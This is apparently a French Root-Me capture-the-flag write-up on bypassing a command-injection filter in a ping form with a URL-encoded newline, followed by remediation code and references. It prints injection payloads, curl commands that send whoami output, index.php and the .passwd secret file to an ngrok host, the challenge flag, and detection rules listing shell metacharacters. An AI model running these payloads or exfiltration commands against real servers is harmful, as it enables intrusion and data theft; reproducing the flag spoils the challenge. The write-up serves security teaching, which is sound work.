


# Root-Me – Challenge 8 : Injection de commande - Contournement de filtre

## 1. Nom du challenge & URL

**Nom** : Challenge 8 – Command Injection - Filter bypass

**URL** : [Root-Me Challenge 8](https://www.root-me.org/fr/Challenges/Web-Serveur/Injection-de-commande-Contournement-de-filtre)

---

## 2. Objectif

Le but du challenge est d'exploiter une **injection de commande** dans un service de ping en contournant les filtres de sécurité pour exécuter des commandes arbitraires sur le serveur et récupérer un flag.

**Type d'attaque** : Command Injection avec contournement de filtre

---

## 3. Qu'est-ce qu'une injection de commande ?

L'injection de commande est une attaque qui permet à un attaquant d'**exécuter des commandes arbitraires** sur le système d'exploitation hôte via une application web vulnérable.

### Comment ça fonctionne ?

L'attaquant envoie une entrée malveillante que l'application transmet comme argument à une fonction système (shell). Si l'entrée n'est pas correctement validée ou sanitisée, les commandes de l'attaquant seront exécutées par le serveur.

**Exemple** :

```bash
# Commande légitime
ping -c 1 127.0.0.1

# Injection de commande
ping -c 1 127.0.0.1; whoami
```

---

## 4. Étapes de découverte de la vulnérabilité

### 4.1. Analyse de la page du challenge

En accédant au challenge, on découvre une page avec un **service de ping** :

* Un formulaire qui prend une adresse IP en entrée
* L'application envoie l'IP avec une requête **POST**
* Le serveur exécute probablement une commande `ping` avec l'IP fournie

### 4.2. Tests initiaux

On commence par tester des injections classiques avec des caractères spéciaux :

```bash
# Test avec point-virgule
127.0.0.1; whoami

# Test avec pipe
127.0.0.1 | whoami

# Test avec double pipe
127.0.0.1 || whoami

# Test avec esperluette
127.0.0.1 && whoami
```

**Résultat** : Tous les caractères spéciaux sont filtrés par l'application !

### 4.3. Contournement du filtre avec newline

Les filtres bloquent les caractères spéciaux classiques, mais on peut essayer de **contourner avec un caractère de nouvelle ligne** (newline) encodé en URL :

```
Caractère : %0A (Line Feed / New Line en URL encoding)
```

**Payload testé** :

```
POST /web-serveur/ch53/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1%0Awhoami
```

**Résultat** : Le filtre est contourné avec succès ! Cependant, il n'y a **pas de sortie visible** dans la réponse HTTP. Il s'agit donc d'une **injection de commande aveugle** (Blind Command Injection).

### 4.4. Confirmation sans Burp Collaborator (ngrok + curl)

Pour confirmer l'exécution sans Burp Collaborator, on utilise **ngrok** pour exposer un serveur HTTP local et intercepter les requêtes envoyées par le serveur vulnérable.

**Mise en place** :

1. Démarrez un serveur HTTP local (Kali Linux) :
   ```bash
   python3 -m http.server 8080
   ```

2. Exposez le serveur avec ngrok :
   ```bash
   ngrok http 8080
   ```
   
3. Récupérez l'URL publique fournie par ngrok (ex: `https://abc123.ngrok.io`).

**Payloads d'injection** :

- Callback simple pour confirmer l'exécution :

```http
POST /web-serveur/ch53/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1%0Acurl%20-s%20https://abc123.ngrok.io/callback?marker=cmd-ok
```

- Exfil légère avec `whoami` :

```http
POST /web-serveur/ch53/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1%0Acurl%20-X%20POST%20https://abc123.ngrok.io/capture%20-d%20"whoami=$(whoami)"
```

**Vérification** : Observez les requêtes HTTP reçues dans les logs du serveur Python ou dans l'interface web de ngrok (`http://127.0.0.1:4040`). Si une requête arrive, la commande a bien été exécutée côté serveur.

---

## 5. Exploitation de la vulnérabilité


---

## 6. Payload final utilisé

Voici la séquence complète des payloads utilisés :

### Étape 1 : Test du contournement du filtre

```http
POST /web-serveur/ch53/ HTTP/1.1
Host: challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

ip=127.0.0.1%0Awhoami
```

### Étape 2 : Récupération du code source

```http
POST /web-serveur/ch53/ HTTP/1.1
Host: challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

ip=127.0.0.1%0Acat%20index.php
```

### Étape 3 : Récupération du flag

ip=127.0.0.1%0Acurl --data "@index.php"   https://polysynthetic-santalaceous-moriah.ngrok-free.dev


 <html><head><title>Ping Service</title></head><body><form method="POST" action="index.php">        <input type="text" name="ip" placeholder="127.0.0.1">        <input type="submit"></form><pre><?php $flag = "".file_get_contents(".passwd")."";if(isset($_POST["ip"]) && !empty($_POST["ip"])){        $ip = @preg_replace("/[\\\$|`;&<>]/", "", $_POST["ip"]);	//$ip = @str_replace(['\\', '$', '|', '`', ';', '&', '<', '>'], "", $_POST["ip"]);        $response = @shell_exec("timeout 5 bash -c 'ping -c 3 ".$ip."'");        $receive = @preg_match("/3 packets transmitted, (.*) received/s",$response,$out);        if ($out[1]=="3")         {                echo "Ping OK";        }        elseif ($out[1]=="0")        {                echo "Ping NOK";        }        else        {                echo "Syntax Error";        }}?></pre></body></html>
 
 ip=127.0.0.1%0Acurl --data "@.passwd" https://polysynthetic-santalaceous-moriah.ngrok-free.dev

---
### Explication technique du payload :

* **`%0A`** : Caractère de nouvelle ligne (Line Feed) encodé en URL, permet d'injecter une nouvelle commande
* **`index.php`** : Fichier PHP contenant le code source de l'application
* **`.passwd`** : Fichier caché contenant le flag

**Pourquoi %0A fonctionne ?**

Le caractère `%0A` (nouvelle ligne) est souvent oublié dans les filtres de sécurité qui se concentrent sur les caractères comme `;`, `|`, `&`, etc. En shell, une nouvelle ligne agit comme un **séparateur de commandes**, permettant d'exécuter plusieurs commandes successivement.
[Burp](./images/challenge8.2.png)
[Ngrok](./images//challenge8.1.png)
## 7. Résultat obtenu

**Le flag est** : `Comma@nd_1nJec7ion_Fl@9_1337_Th3_G@m3!!!`

Le challenge est validé !



---

## 8. Screenshot

Voici un screenshot prouvant que le challenge est terminé :



---

## 9. Recommandations pour sécuriser la vulnérabilité

Pour corriger cette vulnérabilité d'injection de commande, il faut implémenter les mesures suivantes :

### 9.1. Éviter d'exécuter des commandes système

La meilleure pratique est de **ne jamais passer l'entrée utilisateur directement aux fonctions système** [1] [2].

**Code vulnérable** :

```php
<?php
$ip = $_POST['ip'];
$output = shell_exec("ping -c 4 " . $ip);
echo $output;
?>
```

**Code sécurisé** : Utiliser des bibliothèques natives sans appel au shell :

```php
<?php
$ip = $_POST['ip'];

// Valider que c'est bien une IP
if (!filter_var($ip, FILTER_VALIDATE_IP)) {
    die("Adresse IP invalide");
}

// Utiliser une fonction PHP native ou une bibliothèque sécurisée
$ping = new Ping($ip);
$result = $ping->execute();
?>
```

### 9.2. Valider et sanitiser toutes les entrées utilisateur

Implémenter une **validation stricte** des entrées [2] [3] :

```php
<?php
function validate_ip($ip) {
    // Vérifier que c'est une adresse IP valide (IPv4 ou IPv6)
    if (!filter_var($ip, FILTER_VALIDATE_IP)) {
        return false;
    }
    
    // Rejeter les IPs privées ou réservées si nécessaire
    if (!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
        return false;
    }
    
    return true;
}

$ip = $_POST['ip'];

if (!validate_ip($ip)) {
    die("Adresse IP invalide");
}

// Utiliser escapeshellarg() comme couche de sécurité supplémentaire
$safe_ip = escapeshellarg($ip);
$output = shell_exec("ping -c 4 " . $safe_ip);
?>
```

### 9.3. Utiliser escapeshellarg() et escapeshellcmd()

Si l'utilisation de commandes système est **absolument nécessaire**, utiliser les fonctions d'échappement [1] [3] :

```php
<?php
// escapeshellarg() - Échappe un argument de commande shell
$ip = escapeshellarg($_POST['ip']);
$output = shell_exec("ping -c 4 " . $ip);

// escapeshellcmd() - Échappe les métacaractères shell
$command = "ping -c 4 " . $_POST['ip'];
$safe_command = escapeshellcmd($command);
$output = shell_exec($safe_command);
?>
```

**⚠️ Attention** : Ces fonctions ne sont **pas infaillibles** et peuvent être contournées dans certains cas. La validation des entrées reste essentielle.

### 9.4. Implémenter une liste blanche (Whitelist)

Autoriser uniquement les caractères et formats attendus [2] [4] :

```php
<?php
function sanitize_ip($ip) {
    // Supprimer tous les caractères non autorisés
    // Autoriser uniquement : chiffres, points, deux-points (pour IPv6)
    $ip = preg_replace('/[^0-9.:]/i', '', $ip);
    
    return $ip;
}

$ip = sanitize_ip($_POST['ip']);

// Valider après la sanitisation
if (!filter_var($ip, FILTER_VALIDATE_IP)) {
    die("Adresse IP invalide");
}
?>
```

### 9.5. Décoder et inspecter toutes les entrées

Décoder les entrées URL-encodées avant de les valider [3] [4] :

```php
<?php
function validate_input($input) {
    // Décoder l'URL encoding
    $decoded = urldecode($input);
    
    // Vérifier la présence de caractères dangereux
    $dangerous_chars = [
        "\n", "\r",      // Nouvelles lignes
        ";", "|", "&",   // Séparateurs de commandes
        "`", "$", "(",   // Substitution de commandes
        ">", "<",        // Redirections
        "\0"             // Null byte
    ];
    
    foreach ($dangerous_chars as $char) {
        if (strpos($decoded, $char) !== false) {
            return false;
        }
    }
    
    return true;
}

$ip = $_POST['ip'];

if (!validate_input($ip)) {
    die("Entrée invalide détectée");
}
?>
```

### 9.6. Utiliser des bibliothèques sécurisées

Utiliser des bibliothèques qui n'appellent pas le shell système [4] [5] :

```python
# Python - Utiliser subprocess avec shell=False
import subprocess

ip = user_input

# Valider l'IP
import ipaddress
try:
    ipaddress.ip_address(ip)
except ValueError:
    print("IP invalide")
    exit(1)

# Exécuter sans passer par le shell
result = subprocess.run(
    ['ping', '-c', '4', ip],
    shell=False,              # Important : ne pas utiliser le shell
    capture_output=True,
    text=True,
    timeout=5
)

print(result.stdout)
```

### 9.7. Principe du moindre privilège

Exécuter l'application web avec des **permissions minimales** [1] [5] :

```bash
# Créer un utilisateur dédié avec permissions limitées
sudo useradd -r -s /bin/false webapp

# Configurer les permissions
sudo chown -R webapp:webapp /var/www/app
sudo chmod 750 /var/www/app

# Restreindre l'accès aux commandes système
# Utiliser AppArmor ou SELinux pour limiter les commandes exécutables
```

### 9.8. Implémenter un WAF (Web Application Firewall)

Déployer un WAF pour détecter et bloquer les tentatives d'injection [4] [5] :

```nginx
# ModSecurity - Règle pour détecter les injections de commandes
SecRule ARGS "@detectCommandInjection" \
    "id:1001,\
    phase:2,\
    block,\
    log,\
    msg:'Command Injection Attack Detected'"

# Bloquer les caractères suspects
SecRule ARGS "@rx (\n|\r|;|\||&|`|\$\()" \
    "id:1002,\
    phase:2,\
    block,\
    log,\
    msg:'Suspicious characters detected'"
```

### 9.9. Logging et monitoring

Mettre en place un système de **détection d'intrusion** [2] [5] :

```php
<?php
function log_suspicious_activity($input, $reason) {
    $log_entry = sprintf(
        "[%s] Suspicious input detected - IP: %s, Input: %s, Reason: %s\n",
        date('Y-m-d H:i:s'),
        $_SERVER['REMOTE_ADDR'],
        $input,
        $reason
    );
    
    file_put_contents('/var/log/security/command_injection.log', $log_entry, FILE_APPEND);
    
    // Alerter l'équipe de sécurité
    mail('security@example.com', 'Command Injection Attempt', $log_entry);
}

// Utilisation
if (!validate_input($ip)) {
    log_suspicious_activity($ip, 'Invalid characters detected');
    die("Entrée invalide");
}
?>
```

---

## 10. Références

[1] [OWASP – Command Injection](https://owasp.org/www-community/attacks/Command_Injection) - Guide complet sur les injections de commandes

[2] [OWASP – Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html) - Bonnes pratiques pour prévenir les injections de commandes

[3] [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html) - Description détaillée de la vulnérabilité

[4] [PHP Security Guide - Command Injection](https://www.php.net/manual/en/security.database.sql-injection.php) - Guide de sécurité PHP

[5] [SANS - Avoiding OS Command Injection Vulnerabilities](https://www.sans.org/reading-room/whitepapers/application/avoiding-command-injection-vulnerabilities-33324) - White paper SANS sur les injections de commandes

[6] [URL Encoding Reference](https://www.w3schools.com/tags/ref_urlencode.asp) - Référence des caractères URL-encodés

